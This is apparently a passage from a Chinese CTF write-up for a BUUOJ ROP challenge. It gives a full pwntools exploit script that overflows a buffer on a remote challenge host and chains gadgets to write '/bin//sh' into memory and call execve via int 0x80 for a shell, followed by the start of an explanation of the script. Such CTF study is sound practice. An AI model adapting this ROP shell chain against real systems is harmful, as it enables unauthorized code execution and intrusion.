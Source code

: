 ```
41     p += pack('<I', 0x0806c943) # int 0x80
42     return p
43 shell = payload()
44 q.sendline(shell)
45 q.interactive()
```
所以只要加一个偏移量就行了
```python
from pwn import*
from struct import*     #pack
#io=process('./rop')
io=remote('node5.buuoj.cn',26760)
p=b'a'*(0xc+4)
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
io.sendline(p)
io.interactive()

```
脚本的解释
```bash
工具函数说明
pack('<I', addr)


把 32-bit 地址按 小端 (<I) 打包为 4 字节，用于放在 payload 中作为“返回地址 / 参数”。

写入字符串 "/bin//sh" 到 .data 段

这段通过一系列 pop / mov [edx], eax gadget 把字符串写入可写内存（.data）：

# 写入 "/bin" 到 .data
p += pack('<I', 0x0806ecda) # pop edx ; ret
```